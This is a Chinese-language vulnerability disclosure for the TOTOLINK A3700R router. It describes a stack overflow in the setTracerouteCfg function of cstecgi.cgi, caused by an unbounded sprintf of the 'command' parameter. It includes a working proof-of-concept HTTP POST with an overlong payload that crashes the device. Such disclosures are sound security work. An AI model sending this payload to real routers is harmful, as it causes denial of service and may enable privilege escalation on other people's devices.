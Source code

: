 

### **概述**：
影响设备：totolink A3700R
影响固件版本：V9.1.2u.6165_20211012
影响：堆栈溢出，可以造成拒绝服务和权限提升
固件下载地址：<https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip>
报送邮箱 : zwx918569613@gmail.com

![](Pasted%20image%2020231022165035.png)

### **漏洞**：
该漏洞位于`cstecgi.cgi`中的函数`FUN_00422928`，函数别名`setTracerouteCfg`


![](Pasted%20image%2020231023195516.png)


`cstecgi.cgi`通过`topicurl`的值实现处理不同的函数接口
这里对传入命令合法性进行了验证，过滤了命令注入的漏洞
但是并未对传入的参数`command`进行长度限制，而`sprintf`格式化拼接参数`command`到变量`acStack_90`中，存在堆栈溢出漏洞


### **POC**:

复现漏洞可以通过使用真机或者使用qemu模拟
使用下方POC可以打通

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 507
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{
"topicurl": "setting/setTracerouteCfg",
"command":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
}
~~~

### **影响效果**：


![](Pasted%20image%2020231023200234.png)